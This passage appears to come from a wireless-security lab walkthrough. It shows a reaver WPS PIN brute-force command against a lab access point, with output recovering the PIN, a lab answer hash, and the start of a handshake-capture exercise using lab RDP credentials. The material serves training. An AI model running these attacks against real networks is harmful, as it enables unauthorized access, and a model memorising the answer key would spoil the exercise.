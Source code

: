 ```shell
reaver -i mon0 -c 1 -b D8:D6:3D:EB:29:D5
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -c 1 -b D8:D6:3D:EB:29:D5

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from D8:D6:3D:EB:29:D5
[+] Received beacon from D8:D6:3D:EB:29:D5
[!] Found packet with bad FCS, skipping...
[+] Associated with D8:D6:3D:EB:29:D5 (ESSID: HackTheWireless)
[+] WPS PIN: '12345670'
[+] WPA PSK: '{hidden}'
[+] AP SSID: 'HackTheWireless'
```

Answer: `42b5215eb129abec043d7f32596f4f90`

# Cracking MIC (4-Way Handshake)

## Question 1

### "Perform the 4-way handshake capture as demonstrated in this section. What is the discovered value of the WPA PSK?"

After spawning the target, students will proceed to establish an RDP connection using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.121]─[htb-ac-8414@htb-rzdvfchclb]─[~]
└──╼ [★]$ xfreerdp /v:10.129.160.80 /u:wifi /p:wifi /dynamic-resolution 

[03:57:56:352] [7988:7989] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[03:57:56:653] [7988:7989] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[03:57:56:653] [7988:7989] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[03:57:56:672] [7988:7989] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[03:57:56:672] [7988:7989] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[03:57:56:672] [7988:7989] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

Students will open a terminal and switch to the root's user context:
